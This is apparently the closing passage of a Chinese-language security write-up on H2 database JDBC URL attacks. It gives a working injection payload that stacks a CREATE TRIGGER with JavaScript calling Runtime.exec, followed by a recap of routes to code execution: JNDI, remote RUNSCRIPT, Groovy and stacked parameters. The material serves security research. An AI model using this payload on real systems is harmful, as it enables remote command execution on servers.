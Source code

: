 ![image-20230811104152849](./../.gitbook/assets/image-20230811104152849.png)

果然是支持反斜杠转义的。因此在payload中分号前面加上`\`即可

```
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=1\;CREATE TRIGGER TRIG_JS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc")$$--
```

# 0x04 Recap

本文简单介绍了H2的JDBC攻击方法，在JDBC URL可控的情况下（不局限于h2 web console）

* JNDI注入（高版本限制了只能是java协议）
* 利用init参数执行`RUNSCRIPT`命令加载执行远程恶意SQL
* 利用init参数直接执行`groovy`元编程代码（不出网）
* 利用其他连接参数进行堆叠注入

当然若能直接连接上去，就能直接UDF命令执行了。

而对于h2 web console，利用方式会受到一些限制：

* 需要开启`-webAllowOthers`选项，支持外部连接
* 需要开启`-ifNotExists`选项，支持创建数据库
